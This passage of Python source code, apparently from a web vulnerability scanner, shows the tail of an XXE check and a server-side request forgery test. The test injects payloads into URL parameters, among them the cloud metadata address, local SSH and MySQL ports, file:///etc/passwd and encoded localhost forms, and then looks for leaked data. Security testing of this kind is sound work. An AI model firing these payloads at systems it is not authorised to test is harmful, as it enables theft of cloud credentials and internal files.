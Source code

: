 ```python
                        vuln_info = f"XXE vulnerability at {endpoint}"
                        self.vulnerabilities.append(vuln_info)
                        print(f"  [!] {vuln_info}")
                        break
                        
                except requests.RequestException:
                    continue
        
        print(f"  Tested XXE vulnerabilities on {len(xml_endpoints)} endpoints")
    
    def test_ssrf_vulnerabilities(self):
        """Test for Server-Side Request Forgery vulnerabilities"""
        print("\n[+] Testing SSRF vulnerabilities...")
        
        # SSRF payloads
        ssrf_payloads = [
            "http://169.254.169.254/latest/meta-data/",  # AWS metadata
            "http://localhost:22",  # Local SSH
            "http://127.0.0.1:3306",  # Local MySQL
            "file:///etc/passwd",  # Local file
            f"{self.test_site}",  # External callback
            "http://[::1]:80",  # IPv6 localhost
            "http://0177.0.0.1/",  # Octal notation
            "http://0x7f000001/",  # Hex notation
        ]
        
        # Common SSRF parameter names
        ssrf_params = ['url', 'uri', 'path', 'continue', 'dest', 'redirect', 
                      'uri', 'window', 'next', 'data', 'reference', 'site']
        
        # Test URL parameters
        for endpoint in list(self.endpoints)[:3]:  # Limit for demo
            for param in ssrf_params:
                for payload in ssrf_payloads[:3]:  # Test first 3 payloads
                    test_url = f"{endpoint}?{param}={payload}"
                    
                    try:
                        start_time = time.time()
                        response = self.session.get(test_url, timeout=10)
                        response_time = time.time() - start_time
                        
                        # Check for SSRF indicators
                        ssrf_indicators = [
                            'ami-', 'instance-id', 'local-hostname',  # AWS metadata
                            'SSH-', 'OpenSSH',  # SSH response
                            'root:', 'bin/bash',  # File read
                            'mysql', 'database'  # Database response
                        ]
                        
                        for indicator in ssrf_indicators:
                            if indicator in response.text:
                                vuln_info = f"SSRF vulnerability: {test_url}"
                                self.vulnerabilities.append(vuln_info)
                                print(f"  [!] {vuln_info}")
                                break
                        
                        # Check for time-based SSRF (long response times)
                        if response_time > 5 and 'localhost' in payload:
                            vuln_info = f"Potential time-based SSRF: {test_url}"
                            self.vulnerabilities.append(vuln_info)
                            print(f"  [!] {vuln_info}")
                            
                    except requests.RequestException:
```